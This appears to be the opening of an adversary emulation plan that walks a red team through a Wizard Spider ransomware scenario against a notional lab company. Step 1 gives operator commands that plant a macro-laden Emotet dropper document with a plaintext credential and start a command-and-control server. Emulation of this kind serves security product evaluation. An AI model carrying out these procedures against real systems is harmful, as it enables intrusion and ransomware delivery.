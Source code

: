 # Scenario Overview

This scenario emulates Wizard Spider conducting a ransomware attack against a notional organization (Oz Inc).

This scenario emulates Wizard Spider TTPs based on  several malware specimens either used by or associated with the Wizard Spider actors:

1. Emotet
2. Trickbot
3. Ryuk

---

## Step 1 - Initial Compromise

:microphone: `Voice Track:`

Step1 emulates Wizard Spider gaining initial access using a Microsoft Word document.

The word document contains [obfuscated VBA macros](../../Resources/Emotet_Dropper) that downloads and executes a malicious DLL.

The [malicious DLL](../../Resources/Emotet) establishes a C2 session with the adversary control server.

The malicious DLL is based on Emotet.

```
Compromised user info:

User:	judy@oz.local

System: 10.0.0.7 / dorothy

C2:	192.168.0.4:80 HTTP; traffic is AES-encrypted with symmetric key and base64 encoded
```

*Note: the document is pre-positioned in the environment.*

*We do not emulate sending the document to target, as our focus is evaluating their product against post-initial-access TTPs.*

---

### :biohazard: Procedures

Upload the Emotet-dropper document to Dorothy's desktop:

```bash
smbclient -U 'oz\judy' //10.0.0.7/C$ -c "put wizard_spider/Resources/Emotet_Dropper/ChristmasCard.docm Users/judy/Desktop\ChristmasCard.docm;" "Passw0rd!"
```

Start the control server from your terminator terminal.

```bash
cd ~/wizard_spider/Resources/control_server
sudo ./controlServer
```
